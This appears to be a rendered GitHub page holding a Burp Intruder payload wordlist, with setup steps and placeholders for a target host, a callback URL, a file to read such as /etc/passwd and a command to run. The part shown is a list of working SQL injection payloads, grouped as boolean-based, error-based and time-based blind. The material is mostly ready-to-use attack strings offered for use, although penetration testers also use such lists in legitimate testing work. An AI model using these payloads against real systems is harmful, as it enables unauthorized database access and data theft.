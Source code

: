# Burp Intruder Fast Check

**Placeholders Used:**

* `{{TARGET_HOST}}`: The target domain or IP.
* `{{CALLBACK_URL}}`: Your Burp Collaborator client URL or personal server for OAST (Out-of-Band Application Security Testing).
* `{{TARGET_FILE}}`: A file you are trying to read (e.g., /etc/passwd).
* `{{CMD}}`: A command you are trying to execute (e.g., whoami).
* `{{INJECT_POINT}}`: A marker for where the payload is injected.

***

#### **How to Use This in Burp Intruder**

1. **Attack Type:** Choose the appropriate attack type. "Sniper" is for a single position, while "Cluster Bomb" is excellent for testing multiple parameters at once (e.g., a username and password field with NoSQLi payloads).
2. **Payload Sets:** Load the relevant section below as a "Simple list".
3. **Placeholders:** Before running, use Intruder's "Find and Replace" feature in the main request window to replace placeholders like \{{CALLBACK\_URL\}} with your actual Collaborator URL.
4. **Payload Processing:** Use Intruder's "Payload Processing" rules to apply URL encoding, Base64 encoding, or other modifications on the fly. This is extremely powerful.
5. **Grep - Match:** Configure "Grep - Match" to look for success indicators, such as root:x:0:0, OAST\_SUCCESS, Content-Type: application/json, or specific error messages.
6. **Grep - Extract:** Use "Grep - Extract" to pull data from responses, which is ideal for blind vulnerabilities.

***

#### **Web Bolt Wordlist**

**1. SQL Injection (SQLi)**

code Codedownloadcontent\_copyexpand\_less

```
# === Boolean-Based ===
' OR 1=1--
" OR 1=1--
' OR '1'='1--
" OR "1"="1--
') OR ('1'='1--
1' OR '1'='1'
' OR 'x'='x
' OR 1 -- -
' OR '1'='1' /*
' OR 1=1#

# === Error-Based ===
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT DATABASE()), 0x7e, FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
" AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT USER()), 0x7e, FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
' AND GTID_SUBSET(SHOW,1)--
' AND 1=(SELECT * FROM (SELECT NAME_CONST(VERSION(),1),NAME_CONST(VERSION(),1)) AS x)--
' anD 1=CoNvErT(iNt, (sElEcT User()))--

# === Time-Based (Blind) ===
' OR SLEEP(5)--
" OR SLEEP(5)--
' OR pg_sleep(5)--
" OR pg_sleep(5)--
' AND 1=IF(1=1,SLEEP(5),0)--
' OR BENCHMARK(5000000,MD5('a'))--
```